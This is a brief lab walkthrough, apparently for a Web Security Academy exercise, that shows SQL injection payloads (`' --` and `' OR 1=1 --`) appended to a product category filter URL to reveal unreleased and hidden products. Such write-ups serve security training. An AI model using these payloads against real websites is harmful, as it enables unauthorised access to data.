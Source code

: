 - Select the one of the categories given.
- Then observe the URL.
`https://ac4f1f9d1f9cf661c0753d4600e1005a.web-security-academy.net/filter?category=Lifestyle`

For unreleased data of the selected filter: `category=Lifestyle' --`
```
https://ac4f1f9d1f9cf661c0753d4600e1005a.web-security-academy.net/filter?category=Lifestyle' --
```
To display all the products in any category, including categories that they wasn't mentioned: `category=Lifestyle'+OR+1=1 --`
```
https://ac4f1f9d1f9cf661c0753d4600e1005a.web-security-academy.net/filter?category=Lifestyle%27+OR+1=1%20--
```
